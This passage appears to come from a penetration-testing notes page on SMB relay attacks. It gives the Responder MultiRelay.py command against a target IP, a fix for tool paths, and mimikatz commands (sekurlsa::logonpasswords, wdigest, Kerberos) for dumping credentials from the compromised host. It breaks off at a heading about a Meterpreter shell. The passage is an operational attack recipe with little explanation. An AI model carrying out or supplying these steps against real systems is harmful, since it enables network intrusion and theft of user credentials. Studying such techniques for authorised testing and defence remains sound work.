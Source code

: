 ```
python /usr/share/responder/tools/MultiRelay.py -t 192.168.56.119 -u ALL
```

if you get error while running the system commmands just edit the multirelay config file and add the right path for syssvc.exe and mimikatz which can be found with ‘locate MultiRelay' commnad:

![](<../../../.gitbook/assets/image (215).png>)

#### after triggering the host we have this:

![](<../../../.gitbook/assets/image (227).png>)

#### we can run mimicatz commands with mimi \[cmd]:

```
mimi sekurlsa::logonpasswords
mimi sekurlsa::wdigest
mimi sekurlsa::Kerberos​
```

## <mark style="color:red;">Meterpreter Shell</mark>
